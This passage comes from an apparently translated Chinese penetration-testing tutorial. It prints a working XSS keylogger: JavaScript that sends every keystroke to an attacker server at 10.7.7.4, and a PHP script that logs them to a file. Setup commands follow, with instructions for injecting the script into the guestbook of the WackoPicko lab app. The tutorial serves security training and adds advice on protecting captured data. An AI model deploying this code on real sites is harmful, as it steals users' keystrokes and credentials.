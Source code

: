 以下是`klog.php`文件的外观：

```
<?php 
  if(!empty($_GET['k'])) { 
    $file = fopen('keys.txt', 'a'); 
    fwrite($file, $_GET['k']); 
    fclose($file); 
  } 
?> 
```

以下是`klog.js`文件的外观：

```
var buffer = []; 
var server = 'http://10.7.7.4/klog.php?k=' 
document.onkeypress = function(e) { 
  buffer.push(e.key); 
} 
window.setInterval(function() { 
  if (buffer.length > 0) { 
    var data = encodeURIComponent(buffer); 
    new Image().src = server + data; 
    buffer = []; 
  } 
}, 200); 
```

这里，`10.7.7.4`是 Kali Linux 机器的地址，因此受害者将向该服务器发送缓冲区。此外，根据系统的配置，您可能需要在代码中指定的路径中创建`keys.txt`文件。在本例中，它是 web 根目录（`/var/www/html/`。另外，添加写入权限或设置 Apache 用户的所有权，以防止 web 服务器尝试更新本地文件时出现权限错误：

```
touch /var/www/html/keys.txt
chown www-data /var/www/html/keys.txt
```

这是键盘记录器的最简单版本。更复杂的版本可能包括以下内容：

*   捕获的时间戳
*   发送信息的用户或计算机的标识符
*   将密钥保存到数据库以方便查询、分组和排序
*   控制功能，如启动和停止键记录器，触发某些键或组合上的操作

在渗透测试期间，应尽可能避免从客户端或用户捕获信息，尽管有时这对于正确覆盖某些攻击向量是必要的。在这种情况下，必须对此类信息的传输、存储和处理采取适当的安全措施。如果将任何信息发送到渗透测试仪控制的服务器，则必须使用 HTTPS、SSH 或其他安全协议对通信进行加密。存储也必须加密。建议使用全磁盘加密，但还需要在其上进行数据库和文件加密。此外，根据接战规则，可能会请求安全删除所有信息。

再次使用 WackoPicko 的留言簿，提交以下评论：

![](../images/00179.jpeg)

这将在用户每次访问留言簿页面时加载页面中的外部 JavaScript 文件，并捕获他们发出的所有击键。您现在可以在页面中键入任何内容，并将其发送到服务器。

如果要查看到目前为止记录的内容，只需查看 Kali Linux 中的`keys.txt`文件：

![](../images/00180.jpeg)

